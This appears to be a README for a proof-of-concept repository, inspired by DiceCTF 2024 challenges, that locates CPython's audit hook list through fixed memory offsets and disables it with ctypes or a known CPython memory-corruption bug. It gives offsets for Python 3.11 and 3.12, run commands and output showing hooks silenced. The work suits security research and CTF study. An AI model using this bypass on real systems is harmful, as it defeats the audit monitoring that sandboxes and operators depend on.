 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# Python audit hook -- under interpreter state
python_offset_311 = 0xe00
python_offset_312 = 0x41448

# native audit hook -- under runtime state
native_offset_311 = -0xe388
native_offset_312 = -0x11df0
```

## audit hook in Python
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.

### How to use
```bash
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
PyInterpreterState_addr=0x5c50c812fbe8
PyRuntimeState_addr=0x5c50c811d180
PyInterpreterState.audit_hooks_ptr_addr=0x5c50c8170fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c50c811dd78

audit_hook_ptr_offset=0x41448
1
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## audit hook in C
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks linkList to `NULL`.

### How to use
```bash
./build.sh
./POC-native-hook.py
./POC-native-hook2.py
```
### Output
```bash
> ./POC-native.py
PyInterpreterState_addr=0x5c7801978be8
PyRuntimeState_addr=0x5c7801966180
PyInterpreterState.audit_hooks_ptr_addr=0x5c78019b9fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c7801966d78

audit_hook_ptr_offset=-0x11df0
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## Use issues/91153 to do arbitrary read/write
### Concept
By using <https://github.com/python/cpython/issues/91153>, we can overwrite audit hook without `ctypes`.
### How to use
```bash
./build.sh
./POC2-issue91153.py
./POC2-issue91153-native.py
```
### Output
```bash
> ./POC2-issue91153.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-issue91153-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [ ] Find a way to get the `audit_hook` address without using `ctypes`